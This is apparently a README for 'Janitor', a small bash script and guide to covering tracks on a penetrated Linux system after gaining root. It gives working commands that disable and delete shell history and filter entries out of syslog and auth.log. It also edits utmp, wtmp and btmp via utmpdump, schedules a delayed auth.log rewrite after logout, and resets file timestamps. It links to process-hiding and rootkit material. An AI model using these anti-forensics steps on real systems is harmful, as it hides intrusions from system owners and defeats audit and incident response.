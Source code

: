 # Janitor
Smalll bash script to scrub any and all logs/traces of malicious activity of a penetrated linux box.

## Cleaning up your messes
Once root access is gained to a system, one should remove any trace of themselves in the authlog, syslog, histfile (.bash_history for root and whatever user) as well as utmp, wtmp, and btmp (if you had any failed login attempts) and any other logs.

Note: I still need to expand the slept background processes to more than just auth.log

### Masking your history
As both whatever user you logged in as, and as root:
``` bash
set +o history
history
history -d <number preceding set +o history>
```
history is stored in `$HISTFILE` which you can also edit manually.

### Scrub syslog
Any programs you use that write to syslog should be cleared, so it's worth looking through `/var/log/syslog` to see if you've left any traces other than starting your session. To clear that,
`cat /var/log/syslog | grep -v "user\s" > tmp && mv tmp > /var/log/syslog`

### Scrub lastlog
`lastlog` shows the last time each user has logged in, and the ssh login message seems to print the previous value of `lastlog` for the user.

I need to determine the binary format of `lastlog` in order to edit/overwrite it. A good starting point would be reversing this terse perl script: 

```perl
perl -we '$recs = ""; while (<>) {$recs .= $_};$uid = 0;foreach (split(/(.{292})/s,$recs)) {next if length($_) == 0;my ($binTime,$line,$host) = $_ =~/(.{4})(.{32})(.{256})/;if (defined $line && $line =~ /\w/) {$line =~ s/\x00+//g;$host =~ s/\x00+//g;printf("%5d %s %8s %s\n",$uid,scalar(gmtime(unpack("I4",$binTime))),$line,$host)}$uid++}print"\n"' < /var/log/lastlog
```

Even better: https://github.com/krig/utils/blob/master/lastlog/lastlog.c

### Clearing utmp, wtmp, and btmp
``` bash
utmpdump /var/run/utmp > file.txt
             /log/wtmp
                 /btmp
```
then, edit file.txt (manually or using shell commands e.g. `cat file.txt | grep -v searchterm` to filter out any lines that contain `searchterm`) before doing
``` bash
utmpdump -r < file.txt > /var/run/utmp
                             /log/wtmp
                                 /btmp
```
                         
### Replacing auth.log (note: should also do this after logout, using sleep)

#### Example: (after sshing in as ubuntu and `sudo su`ing) 
(sleep 9 && cat /var/log/auth.log | grep -v "root\|ubuntu\|logind" > tmp && mv tmp  /var/log/auth.log)&

### Masking modification dates
Use `touch` to change the dates of files modified back to their original values.

### Notes

Are there process logs, or any other logs I'm missing?

Idea: Use btmp for a script with geoip api + mapbox to show where all the failed logins are coming from realtime

### Links
After writing this, found these nifty links:

  * http://www.theparticle.com/files/txt/hacking/hackingunix/hacking_unix-part3.txt

  * http://www.hcidata.info/lastlog.htm

  * https://github.com/krig/utils/blob/master/lastlog/lastlog.c

  * https://www.freedesktop.org/wiki/Software/systemd/journal-files/

  * http://www.phrack.org/issues/49/6.html#article

  * http://www.phrack.org/issues/51/6.html#article

  *  https://www.rsyslog.com/doc/master/configuration/filters.html
  
  *  https://docs.fedoraproject.org/en-US/Fedora/23/html/System_Administrators_Guide/s1-interaction_of_rsyslog_and_journal.html

  * https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/
  * https://github.com/gianlucaborello/libprocesshider/blob/master/processhider.c

  * https://stackoverflow.com/questions/12977179/reading-living-process-memory-without-interrupting-it-proc-kcore-is-an-option
  
  * https://www.cyberciti.biz/faq/howto-linux-unix-killing-restarting-the-process/
  send SIGHUP to force process to reload config file. `pkill -HUP rsyslogd`

  * https://www.microsoft.com/en-us/research/wp-content/uploads/2016/02/subvirt.pdf

  * https://unix.stackexchange.com/questions/355216/getting-output-from-netcat-decoding-it-and-returning-an-output
